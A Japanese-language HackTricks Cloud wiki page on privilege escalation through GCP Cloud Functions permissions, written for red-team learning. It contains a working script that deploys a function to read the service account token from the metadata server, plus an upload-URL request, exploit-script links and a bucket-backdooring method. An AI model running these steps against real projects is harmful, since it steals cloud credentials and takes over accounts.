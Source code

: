 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functionsに関する詳細情報:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

これらの権限を持つ攻撃者は、**任意の（悪意のある）コードを持つ新しいCloud Functionを作成し、それにService Accountを割り当てることができます**。次に、メタデータからService Accountトークンを漏洩させて、その権限を昇格させます。\
関数をトリガーするためにいくつかの権限が必要な場合があります。

この方法のためのエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py)と[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py)にあり、事前構築された.zipファイルは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions)にあります。

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

これらの権限を持つ攻撃者は、**関数のコードを変更し、トークンを抽出する目的で関連付けられたサービスアカウントを変更することができます**。

{% hint style="danger" %}
Cloud Functionsをデプロイするには、デフォルトのコンピュートサービスアカウントまたはイメージを構築するために使用されるサービスアカウントに対するactAs権限も必要です。
{% endhint %}

追加の権限として、バージョン1のcloudfunctionsに対する`.call`権限や、関数をトリガーするための`role/run.invoker`ロールが必要な場合があります。
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
`Permission 'run.services.setIamPolicy' denied on resource...`というエラーが表示される場合は、`--allow-unauthenticated`パラメータを使用しており、十分な権限がないためです。
{% endhint %}

この方法のエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py)で見つけることができます。

### `cloudfunctions.functions.sourceCodeSet`

この権限を使用すると、**関数バケットにファイルをアップロードするための署名付きURLを取得できます（ただし、関数のコードは変更されず、更新する必要があります）** 

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

攻撃者の視点からこの権限がどれほど有用かはあまり確信が持てませんが、知っておくのは良いことです。

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

前述の**`.update`**または**`.create`**のいずれかの権限を自分に付与して昇格します。

### `cloudfunctions.functions.update`

**`cloudfunctions`**の権限だけでは、**`iam.serviceAccounts.actAs`**がないと関数を更新できないため、これは有効な昇格ではありません。

### バケットに対する読み取りおよび書き込みアクセス

バケットに対する読み取りおよび書き込みアクセスがある場合、コードの変更を監視でき、バケット内で**更新が発生したときに新しいコードを自分のコードに更新することができ**、新しいバージョンのCloud Functionは提出されたバックドアコードで実行されます。

攻撃の詳細については、以下を確認できます：

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

ただし、これを使用して第三者のCloud Functionsを事前に妥協させることはできません。なぜなら、アカウント内にバケットを作成し、外部プロジェクトが書き込めるように公開権限を与えると、次のエラーが発生します：

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
ただし、これはDoS攻撃に使用される可能性があります。
{% endhint %}

### Artifact Registryに対する読み取りおよび書き込みアクセス

Cloud Functionが作成されると、新しいdockerイメージがプロジェクトのArtifact Registryにプッシュされます。新しいイメージでイメージを変更しようとしたり、現在のイメージ（および`cache`イメージ）を削除しようとしましたが、何も変わらず、Cloud Functionは動作し続けました。したがって、バケットと同様に**レースコンディション攻撃を悪用することができるかもしれません**が、**保存されたイメージを変更するだけではCloud Functionを妥協させることはできません**。

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
